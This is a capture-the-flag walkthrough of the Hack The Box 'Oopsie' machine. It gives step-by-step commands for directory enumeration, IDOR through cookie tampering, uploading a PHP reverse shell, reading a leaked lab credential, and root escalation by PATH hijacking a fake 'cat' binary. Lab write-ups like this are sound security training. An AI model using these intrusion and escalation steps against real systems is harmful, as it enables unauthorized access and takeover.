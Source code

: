 ```yaml
---

title: Oopsie
published: true
category: CTF
system: web
walkthrough-type: htb
source: https://app.hackthebox.com/starting-point
Description: A hack the box machine that uses simple IDOR to gain access to file upload to get a reverse shell then use PATH hijacking to gain root.
tags: PHP, Web, Session Handling, Apache, Reconnaissance, Enumeration, Cookie Manipulation, SUID Exploitation, Authentication bypass, Clear Text Credentials, Arbitrary File Upload, IDOR, Path Hijacking
---
```


# Task 1 - With what kind of tool can intercept web traffic?

- `proxy` burp is a proxy

# Task 2 - What is the path to the directory on the webserver that returns a login page?

- `feroxbuster -u http://oopsie.htb -x txt,php -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt` then we find `/cdn-cgi/login` 

# Task 3 - What can be modified in Firefox to get access to the upload page?

Turning on intercept in burp and capture the request for the guest login.

```
GET /cdn-cgi/login/admin.php HTTP/1.1
Host: oopsie.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://oopsie.htb/cdn-cgi/login/index.php
Connection: close
Cookie: user=2233; role=guest
Upgrade-Insecure-Requests: 1
```

We are assigned a user and role here. Selecting account and changing the id variable to 1 gives us a simple IDOR and the access ID of the admin user. So admin is user 1 and their access id = 34322. 

# Task 4 - What is the access ID of the admin user?

34322 We can then capture the request to the upload page and change the corresponsing variables to allow us to access.

# Task 5 - On uploading a file, what directory does that file appear in on the server?

assuming this file is uploaded the the /uploads/ folder we found earliar. Send through a php-rev-shell.php and access it to gain a hold. at this point we can grab the user.txt and start privilege escalation.

# Task 6 - What is the file that contains the password that is shared with the robert user?

We actually found this file earliar during the feroxbuster. But were unable to view here we can access it and fine his robert's creds. `robert:M3g4C0rpUs3r!`

# Task 7 - What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?

- `find / -type f -group bugtracker 2>/dev/null`
- `find / -type f -perm -u=s 2>/dev/null`

# Task 8 - Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?

- root. ls -las the file

# Task 9 - What SUID stands for? 

- Set owner user id

# Task 10 - What is the name of the executable being called in an insecure manner?

When we run `bugtracker` it is calling cat but not from the path, so we should be able to take advantage of this with a PATH highjacking

travel to /tmp and `echo "/bin/sh" > cat && chmod +x cat`. then we can add the dir to the PATH `export PATH=/tmp:$PATH`, then run bugtracker. 

we can after export the path again and remove tmp to cat root.txt.


